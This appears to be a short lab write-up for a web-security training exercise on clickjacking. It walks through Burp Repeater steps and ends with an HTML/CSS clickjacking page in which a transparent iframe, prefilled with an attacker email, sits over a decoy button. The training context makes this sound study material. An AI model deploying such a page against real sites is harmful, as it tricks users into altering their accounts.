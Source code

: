 # Some cases of Clickjacking

## 1. Clickjacking with form input data prefilled from a URL parameter

Log on to the account with `username = wiener` , `password = peter`

Change the email into:  `ian@hacker.com`

Using Burp, the Proxy tab proceeds to search for the `my-account/change-email` section. Then `Send to repeater`.

In the repeater, when sending with the `POST` method, the response side returns
a result of `302 Found`. Therefore, we proceed to change the `POST` method to `GET` and send back => Return that found ian@hacker.com

Go back to the website and click on `Go to exploit server` to proceed with the change 
structure the body and occupy the server with the following information:

`<style>

    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
    
</style>

<div>Test me</div>

<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
`




    
